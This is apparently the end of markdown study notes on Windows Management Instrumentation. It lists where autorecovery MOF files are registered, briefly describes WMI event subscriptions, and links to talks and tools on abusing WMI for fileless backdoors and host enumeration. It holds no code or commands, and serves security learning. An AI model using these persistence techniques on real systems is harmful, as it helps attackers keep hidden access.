The list of MOF files for autorecovery is stored here :
- ```HKLM\SOFTWARE\Microsoft\WBEM\CIMOM\Autorecover MOFs```
- ```C:\Windows\system32\wbem\AutoRecover```

#### WMI Event Subscriptions
WMI has an event infrastructure which provides the capability of receiving notifications and respond to changes happening on a system.  

--> Synchronous and Asynchronous event queries can be created.  


## Resources
#### BlackHat US 2015: Abusing WMI to built a persistent, asyncronous, and fileless backdoor.  
- https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf
- https://media.defcon.org/DEF%20CON%2023/DEF%20CON%2023%20presentations/DEF%20CON%2023%20-%20Ballenthin-Graeber-Teodorescu-WMI-Attacks-Defense-Forensics.pdf

#### WMISploit
- https://github.com/secabstraction/WmiSploit

#### WMI for Script Kiddies  
- https://www.trustedsec.com/blog/wmi-for-script-kiddies/

#### Usefull WMIC queries for host and domain enumeration  
- https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4

#### Red Team handbook WMI command  
- https://kwcsec.gitbook.io/the-red-team-handbook/techniques/enumeration/recon-commands/wmic-commands

#### NoLimitSecu French Podcast dedicated to WMI
- https://www.nolimitsecu.fr/wmi/

#### Andrei Dumitrescu - OCD
- https://raw.githubusercontent.com/Orange-Cyberdefense/cme-wmi/master/slides/WMI-Attacks_From_Theory2Practice.pdf

#### Backdoor with WMI
- https://www.sakshamdixit.com/backdoor-with-wmi/